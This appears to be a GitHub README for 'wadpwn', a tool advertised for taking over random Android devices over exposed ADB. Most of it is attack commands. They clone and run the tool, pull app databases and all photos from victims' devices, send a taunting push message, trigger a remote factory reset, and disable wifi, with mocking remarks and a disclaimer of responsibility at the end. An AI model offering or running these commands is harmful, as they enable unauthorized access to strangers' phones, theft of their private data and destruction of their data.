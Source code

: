 # wadpwn

**It's true** - We can takeover a  device within seconds and get a proxy or steal anything or whatever!

Hack random android device with 100% guarantee to succeed within 1 second.

![wadpwn](https://user-images.githubusercontent.com/26827453/176798498-2e017de5-6bb4-4b8b-a5b1-e86ffd438276.gif)

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/wadbpwn
    cd wadbpwn
    chmod +x wadb*
    bash ./wadbpwn.sh
    
    - Wait ~1 second
    
    Target has been pwned!

    Enjoy ;-)

### Get Started On Windows 10

    Install any linux distro from microsoft store and run commands above..

### Steal all databases from the device ( require root )

    which su &> /dev/null
    if [[ $? -eq "0" ]]; then
       adb pull /data/data/ /some/path
    else
       printf "* No root detected, just try another target..\n"
       exit 1
    fi

### Steal all pictures: 

    PICS="$(adb shell 'su -c find / \( -name '*.png' -name '*.jpg*' \)')"
    for pictures in $PICS; do
       adb pull -p $PICS /some/folder
     done
    printf "Done..is it your lucky day? ;-)\n"

### Let the owner know that you have hacked him, send a push notice:

    adb shell am broadcast -a com.google.android.c2dm.intent.RECEIVE -n <your.app.package>/com.google.android.gms.gcm.GcmReceiver --es "You h4v3 b33n h3cked mat3" "hrhr!"

### For be an d*ck and do a factory reset of the device: 

    adb shell am broadcast -a android.intent.action.MASTER_CLEAR
    adb shell reboot 

### For be device owners hero for a day you should shut down the targets wifi connection, but why? 

    adb shell svc wifi disable

### System requirements

- Android Debug Bridge (adb) - Find more info about _adb_ [here](https://developer.android.com/studio/command-line/adb)

### Author: 

* **wuseman <wuseman@nr1.nu\>** 

### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

  wuseman cannot be held as responsible for users actions regardless of what damage a user can do. All users that  gathering information or data via wadbpwn is 100% responsible for their own actions, wadbpwn has been developed for a legal purpose.


